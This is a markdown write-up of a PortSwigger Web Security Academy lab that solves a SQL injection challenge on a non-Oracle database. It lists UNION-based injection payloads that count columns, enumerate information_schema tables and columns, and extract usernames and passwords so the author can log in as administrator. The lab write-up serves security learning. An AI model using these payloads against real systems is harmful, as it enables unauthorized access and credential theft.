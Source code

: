```yaml
---
title: 'Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal: To solve the lab, log in as the administrator user.

## Exp
1. Determine # of columns
Payload: `?category=Gifts' union select NULL,NULL --`

2. Determine which column contained text string
Payload: `?category=Gifts' union select 'a','b' --`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `information_schema.tables` to search `table_name`
For instance: `SELECT * FROM information_schema.tables`
![](https://i.imgur.com/ThON4MR.png)

    Payload: `?category=Gifts' union SELECT TABLE_NAME,NULL FROM information_schema.tables--`
    :::spoiler Result
    ![](https://i.imgur.com/DhL1g5i.png)
    :::
4. Then tried the specific one - `users_rjrgxf`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_rjrgxf'--
`
    :::spoiler Result
    ![](https://i.imgur.com/egzZ49U.png)
    :::
5. Tried dig deeper
    Payload: `?category=Gifts' union SELECT username_ngqqos,password_jraqsv FROM users_rjrgxf--
    `
    Then you'll get the password of `administrator` $\to$ login directrly
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/CKhLZdj.png)
    :::

## Reference